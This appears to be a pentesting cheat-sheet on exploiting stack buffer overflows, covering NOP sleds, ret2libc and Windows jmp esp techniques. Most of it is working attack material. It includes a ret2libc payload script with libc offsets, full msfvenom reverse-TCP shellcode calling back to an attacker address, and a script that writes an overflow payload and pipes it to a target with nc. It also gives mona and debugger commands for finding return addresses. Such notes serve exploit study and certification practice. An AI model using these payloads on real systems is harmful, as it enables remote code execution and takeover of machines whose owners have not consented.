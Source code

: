 * Check if you can write executable code in the stack with peda: ``checksec``. 
* Alternatively you have to do it manually or use a script: https://github.com/slimm609/checksec.sh/blob/master/README.md 
* If NX is enabled writing shellcode into buffer will not execute

# Concept
```
     STACK

________________
|   Function   |
----------------
|     Data     |
----------------
|Return Address|
----------------
|Base Pointers |
----------------
|      ^       |
|      |       |
|              |
|    Buffer    |
|              |
|              |
________________
```
* Try to exceed buffer and overwrite base pointers and return address
* Craft buffer according to the following concept 

```bash
python -c 'print "\x90" * 470 + "<shellcode>" + "<memory address in middle of NOPs>" 
```
* \x90 is a NOP and works like a sled since it gets skipped
* therefore run the binary and check $esp for NOP's
* choose address in middle and paste it as 'memory address in middle of NOPs'
* in the example the offset is 500
* $eip gets overwritten with memory address in middle of NOP's
* NOP's get hit 
* instructions follow until shellcode is hit and executes

# ret2libc
* you need the libc address as kind of a 'base'
* afterwards the stack frame dictates the order the function call and parameters are written
* see this [link](https://newbedev.com/why-must-a-ret2libc-attack-follow-the-order-system-exit-command) (explains it much better)
```
function_address
return_address
parameters
```
* so either try to provide some junk for parameters so the function may return to your payload
* or provide actual exit address and payload as parameter for system()

1. find the libc address 
```bash
ldd <binary>
```
2. find the system() address
```bash
locate libc.so.6
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
3. find the exit() address
```bash
locate libc.so.6
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```
4. find /bin/sh in libc
```bash
strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
5. create simple python script to print payload
```python
import struct

junk = "A" * 52

libc_addr = 0xf7d79000
sh_addr = struct.pack('<I', libc_addr + 0x0015ba0b)
system_addr = struct.pack('<I', libc_addr + 0x0003ada0)
exit_addr = struct.pack('<I', libc_addr + 0x0002e9d0)

payload = junk + system_addr + exit_addr + sh_addr

print payload
```

# Example
```
# First try to get exact overflow with either msf-pattern_create or by manual/scripted fuzzing
# Example: Offset at 1252
# Overwrite EIP with 'B's and check with debugger if a register points into memory that we can control
#
# Example: 
# < 1252 >
# AAA...AABBBBCCCCCCCCCCCCCCCCCC
#         \  /\                 /
#          \/  \               /
#         EIP  ESP points to this
#
# Check for badchars, see https://github.com/cytopia/badchars
# Simply paste 'A's and the badchars, follow the dump at crash and check what characters are not allowed '\x00'
# Example badchars: \x0a\x1a\x1b\xae\xce\x69
#
# Generate shellcode
# msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=192.168.119.232 LPORT=4444 -f python -b "\x0a\x1a\x1b\xae\xce\x69"
# => 351 bytes
buf =  b"" 
buf += b"\xda\xcb\xd9\x74\x24\xf4\xbe\xec\xf0\x80\xa0\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xeb\xfc\x31\x73\x13\x03\x9f\xe3\x62"
buf += b"\x55\xa3\xec\xe1\x96\x5b\xed\x85\x1f\xbe\xdc\x85\x44"
buf += b"\xcb\x4f\x36\x0e\x99\x63\xbd\x42\x09\xf7\xb3\x4a\x3e"
buf += b"\xb0\x7e\xad\x71\x41\xd2\x8d\x10\xc1\x29\xc2\xf2\xf8"
buf += b"\xe1\x17\xf3\x3d\x1f\xd5\xa1\x96\x6b\x48\x55\x92\x26"
buf += b"\x51\xde\xe8\xa7\xd1\x03\xb8\xc6\xf0\x92\xb2\x90\xd2"
buf += b"\x15\x16\xa9\x5a\x0d\x7b\x94\x15\xa6\x4f\x62\xa4\x6e"
buf += b"\x9e\x8b\x0b\x4f\x2e\x7e\x55\x88\x89\x61\x20\xe0\xe9"
buf += b"\x1c\x33\x37\x93\xfa\xb6\xa3\x33\x88\x61\x0f\xc5\x5d"
buf += b"\xf7\xc4\xc9\x2a\x73\x82\xcd\xad\x50\xb9\xea\x26\x57"
buf += b"\x6d\x7b\x7c\x7c\xa9\x27\x26\x1d\xe8\x8d\x89\x22\xea"
buf += b"\x6d\x75\x87\x61\x83\x62\xba\x28\xcc\x47\xf7\xd2\x0c"
buf += b"\xc0\x80\xa1\x3e\x4f\x3b\x2d\x73\x18\xe5\xaa\x74\x33"
buf += b"\x51\x24\x8b\xbc\xa2\x6d\x48\xe8\xf2\x05\x79\x91\x98"
buf += b"\xd5\x86\x44\x0e\x85\x28\x37\xef\x75\x89\xe7\x87\x9f"
buf += b"\x06\xd7\xb8\xa0\xcc\x70\x52\x5b\x87\xbe\x0b\x14\xbf"
buf += b"\x57\x4e\xda\x2e\xf4\xc7\x3c\x3a\x14\x8e\x97\xd3\x8d"
buf += b"\x8b\x63\x45\x51\x06\x0e\x45\xd9\xa5\xef\x08\x2a\xc3"
buf += b"\xe3\xfd\xda\x9e\x59\xab\xe5\x34\xf5\x37\x77\xd3\x05"
buf += b"\x31\x64\x4c\x52\x16\x5a\x85\x36\x8a\xc5\x3f\x24\x57"
buf += b"\x93\x78\xec\x8c\x60\x86\xed\x41\xdc\xac\xfd\x9f\xdd"
buf += b"\xe8\xa9\x4f\x88\xa6\x07\x36\x62\x09\xf1\xe0\xd9\xc3"
buf += b"\x95\x75\x12\xd4\xe3\x79\x7f\xa2\x0b\xcb\xd6\xf3\x34"
buf += b"\xe4\xbe\xf3\x4d\x18\x5f\xfb\x84\x98\x6f\xb6\x84\x89"
buf += b"\xe7\x1f\x5d\x88\x65\xa0\x88\xcf\x93\x23\x38\xb0\x67"
buf += b"\x3b\x49\xb5\x2c\xfb\xa2\xc7\x3d\x6e\xc4\x74\x3d\xbb"
buffer = b"A"*1252
eip = b"\xb2\x11\x80\x14"
shellcode = buf 
nops = b"\x90"*12
buffer2 = b"B"*1000

payload = buffer + eip + nops + shellcode + buffer2

f = open('payload', 'wb')
f.write(payload)
f.close()

# cat payload | nc 10.10.10.10 5000
```
# EDB Debugger (Linux)
Install
```
sudo apt install edb-debugger
```
## Search a return address
1. See Plugins > OpcodeSearcher
2. Search ESP -> EIP and select your program

# Immunity Debugger (Windows)
## Finding a Return Address
```
» msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp

```
Use the mona plugin and run
```
!mona modules # get all modules
!mona find -s "\xff\xe4" -m "program.dll"
```
Check if the address contain any bad chars since it will most likely not work otherwise
